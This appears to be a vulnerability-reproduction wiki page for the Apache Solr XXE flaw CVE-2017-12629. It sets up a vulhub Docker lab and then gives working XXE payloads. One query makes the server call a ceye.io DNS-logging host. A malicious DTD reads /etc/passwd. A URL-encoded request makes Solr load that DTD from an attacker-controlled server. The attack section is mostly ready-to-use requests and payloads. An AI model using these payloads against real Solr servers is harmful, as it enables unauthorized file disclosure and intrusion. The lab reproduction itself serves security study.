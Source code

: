 ```yaml
---
title: Apache Solr XXE vulnerability CVE-2017-12629
---
```


# Apache Solr XXE Vulnerability CVE-2017-12629

## Vulnerability Description

Apache Solr is an open source search server. 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr < 7.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Lucene < 7.1</span>

## Environment construction
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## Vulnerability reappears
First request the url address to obtain core content

```
/solr/admin/cores
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307150410724.png)

Send a request

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

Check dnslog to get request

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/b7254e29-c3a3-4654-b960-10f1a3589021.png)

Write an accessible XML file on your own server and write the contents into

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

Then request this file to read the file on the server

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/277c42b0-7152-457b-b4f2-faee9dc4849f.png)

Note that the payload here is url encoding, and the requested file is `http://xxx.xxx.xxx.xxx/1.dtd`. There are more needs to change the written xml file by yourself.
